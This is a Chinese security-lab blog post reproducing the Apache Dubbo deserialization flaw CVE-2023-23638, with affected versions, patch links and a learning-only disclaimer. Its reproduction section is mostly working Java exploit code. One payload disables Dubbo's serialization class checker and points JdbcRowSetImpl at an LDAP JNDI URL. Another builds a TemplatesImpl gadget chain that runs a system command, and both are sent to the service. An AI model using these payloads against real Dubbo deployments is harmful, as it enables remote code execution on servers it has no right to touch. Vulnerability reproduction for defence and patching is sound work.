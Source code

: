 #  Apache Dubbo反序列化漏洞(CVE-2023-23638)

原创 弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 45 个

#复现 44 个

#漏洞 71 个

#POC 31 个

#网络安全 57 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![]()  
 **0x00写在前面**  
  
 **本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![]()  
 **0x01漏洞介绍**

  

Apache Dubbo是一款高性能的 Java RPC 框架。其前身是阿里巴巴公司开源的、轻量级的开源 Java RPC 框架，可以和Spring
框架无缝集成， 2018 年阿里巴巴把这个框架捐献给了 apache 基金会。

Apache
Dubbo是美国阿帕奇（Apache）基金会的一款基于Java的轻量级RPC（远程过程调用）框架。该产品提供了基于接口的远程呼叫、容错和负载平衡以及自动服务注册和发现等功能。

Dubbo 2.7.21版本及之前的2.7.x 版本、3.0.13版本及之前的3.0.x版本、3.1.5版本及之前的3.1.x
版本存在代码问题漏洞，该漏洞源于存在反序列化漏洞，可能导致恶意代码执行。

![]()  
 **0x02影响版本**  

Apache Dubbo 2.7.x <= 2.7.21

3.0.0 <= Apache Dubbo <= 3.0.13

3.1.0 <= Apache Dubbo <= 3.1.5

 **注：利用难度大，需知道接口全限定名、方法名、入参及返参类型等。**

![]()

  

  

  

  

  

![]()  
 **0x03漏洞复现**  
  

1.识别漏洞环境

![]()

2.对漏洞进行复现

有两种利用方式核心代码  

方式1  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    private static Map getInstance() throws IOException {    HashMap newChecker = new HashMap();    newChecker.put("class", "org.apache.dubbo.common.utils.SerializeClassChecker");    newChecker.put("OPEN_CHECK_CLASS", false);    HashMap map = new HashMap();    map.put("class", "org.apache.dubbo.common.utils.SerializeClassChecker");    map.put("INSTANCE", newChecker);    LinkedHashMap map2 = new LinkedHashMap();    map2.put("class", "com.sun.rowset.JdbcRowSetImpl");    map2.put("DataSourceName", "ldap://127.0.0.1:1099/exp");    map2.put("autoCommit", true);    HashMap map3 = new HashMap();    map3.put("class","java.util.HashMap");    map3.put("1",map);    map3.put("2",map2);    return map3;}

方式2  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public static Map getProperties() throws IOException {    Properties properties = new Properties();    properties.setProperty("dubbo.security.serialize.generic.native-java-enable","true");    properties.setProperty("serialization.security.check","false");    HashMap map = new HashMap();    map.put("class", "java.lang.System");    map.put("properties", properties);    return map;}  
    public static Object getObject() throws Exception{    ClassPool pool = ClassPool.getDefault();    CtClass clazz = pool.makeClass("a");    CtClass superClass = pool.get(AbstractTranslet.class.getName());    clazz.setSuperclass(superClass);    CtConstructor constructor = new CtConstructor(new CtClass[]{},            clazz);    constructor.setBody("Runtime.getRuntime().exec(\"calc.exe\");");    clazz.addConstructor(constructor);    byte[][] bytes = new byte[][]{clazz.toBytecode()};    TemplatesImpl templates = TemplatesImpl.class.newInstance();    setValue(templates, "_bytecodes", bytes);    setValue(templates, "_name", "test");    setValue(templates, "_tfactory", null);    JSONArray jsonArray = new JSONArray();    jsonArray.add(templates);    BadAttributeValueExpException val = new            BadAttributeValueExpException(null);    Field valfield = val.getClass().getDeclaredField("val");    valfield.setAccessible(true);    valfield.set(val, jsonArray);  
        NativeJavaSerialization nativeJavaSerialization =new NativeJavaSerialization();    UnsafeByteArrayOutputStream unsafeByteArrayOutputStream = new UnsafeByteArrayOutputStream();    ObjectOutput o = nativeJavaSerialization.serialize(null,unsafeByteArrayOutputStream);    o.writeObject(val);  
        return unsafeByteArrayOutputStream.toByteArray();}  
    send(getProperties());send(getObject());

利用过程流量

![]()

3.工具测试（漏洞存在）

在Dubbo3.x中，启动服务时会隐式的启动一个 **org.apache.dubbo.metadata.MetadataService**
服务，这个服务的作用是保存Dubbo的服务的元数据。

注入服务  

![]()

  

命令执行成功（ **成功执行概率很低** ）

![]()

  

![]()  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  *   *   *   * 

    
    
    https://lists.apache.org/thread/8h6zscfzj482z512d2v5ft63hdhzm0cbhttps://exp10it.cn/2023/03/apache-dubbo-cve-2023-23638-%E5%88%86%E6%9E%90/https://forum.butian.net/share/2277https://github.com/YYHYlh/Apache-Dubbo-CVE-2023-23638-exp/

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![]()

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

